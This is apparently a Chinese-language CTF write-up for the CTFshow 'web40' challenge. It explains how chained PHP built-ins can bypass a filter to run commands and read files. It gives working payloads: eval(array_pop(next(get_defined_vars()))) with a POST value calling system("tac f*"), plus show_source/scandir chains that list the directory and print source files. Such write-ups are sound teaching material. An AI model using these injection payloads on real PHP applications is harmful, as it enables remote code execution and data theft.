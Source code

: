 ```yaml
---
title: PHP仅用函数实现执行命令或读取文件
date: 2024-05-15 21:53:24
permalink: /pages/d74e00/
categories:
  - web
tags:
  - php
author: 
  name: ajay
  link: https://the0n3.top
---
```


# ctfshow web40 命令执行_php变量函数

> 使用php函数让服务器接收并执行自己的命令，获取权限或读取文件  

## 执行命令

```php
get_defined_vars()    # 获取所有系统定义的变量，用户定义的变量，post,get,file等，返回一个数组
next()                # 指向数组中变量的指针
array_pop()           # 弹出数组中最后一个元素
eval()                # 执行表达式或参数字符串命令
```

从里到外构造一下，执行最后一个定义的变量

连起来构造：  
**payload：url/?c=eval(array_pop(next(get_defined_vars())));**  

这个c的值会先获取服务器定义的所有变量，再利用这个数组的栈机制和next指针，获取服务器最后一个变量并执行  

构造完，他的变量数组最后一个定义的什么以及他会执行什么我们都不知道，用post给他传一个**1=system("tac f*");** 作为最后一个变量并执行  
 
## 读文件

```php
getcwd()            #  函数返回当前工作目录。它可以代替pos(localeconv())

localeconv()        #  返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."

pos()               # 输出数组第一个元素，不改变指针；

current()           # 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样

scandir()           # 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录

array_reverse()     # 数组逆置

next()              # 将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

show_source()       # 查看源码
```

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针

**payload：url/?c=show_source(next(array_reverse(scandir(getcwd()))));**

**payload：url/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

船新玩法**var_dump**函数，待解锁！  

**类似函数var_export**
